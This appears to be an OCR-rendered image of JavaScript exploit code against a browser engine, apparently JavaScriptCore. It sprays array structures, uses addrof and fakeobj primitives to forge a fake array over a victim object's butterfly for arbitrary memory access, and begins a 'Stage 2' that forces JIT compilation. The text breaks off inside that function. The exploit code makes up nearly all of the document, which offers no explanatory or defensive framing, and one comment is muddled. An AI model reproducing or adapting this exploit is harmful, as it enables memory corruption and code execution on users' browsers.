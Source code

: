 ```javascript

function b_readmem(x) {
    return f2i(readmem(x))
}

// Above is mainly helper functions

structure_spray = []
for(var i=0; i<1000; i++) {
    var array = [13.37];
    array.a = 13.37;
    array['p'+i] = 13.37;
    structure_spray.push(array)
}

var victim = structure_spray[512];

u32[0] = 0x200;

u32[1] = 0x01082007 - 0x10000;
var flags_arr_double = f64[0];

u32[1] = 0x01082009 - 0x10000;
var flags_arr_contiguous = f64[0];

var outer = {
    cell_header: flags_arr_contiguous,
    butterfly: victim,
};

f64[0] = addrof(outer)
u32[0] += 0x10

var hax = fakeobj(f64[0]);
//
var unboxed = [13.37,13.37,13.37,13.37,13.37,13.37,13.37,13.37,13.37,13.37,13.37]
unboxed[0] = 4.2 // convert `CopyOnWriteArrayWithDoubles` to `ArrayBuffer
var boxed = [{}];
//
hax[1] = unboxed // (1)
var tmp_butterfly = victim[1]; // (2)
hax[1] = boxed // (3)
victim[1] =  tmp_butterfly; // (4)
//
outer.cell_header = flags_arr_double

// Stage 2

function makeJITCompiledFunction() {
    // Some code to avoid inlining...
    function target(num) {
        for (var i = 2; i < num; i++) {
            if (num % i === 0) {
                return false;
            }
        }
        return true;
    }

    // Force JIT compilation.
    for (var i = 0; i < 1000; i++) {
        target(i);
    }
```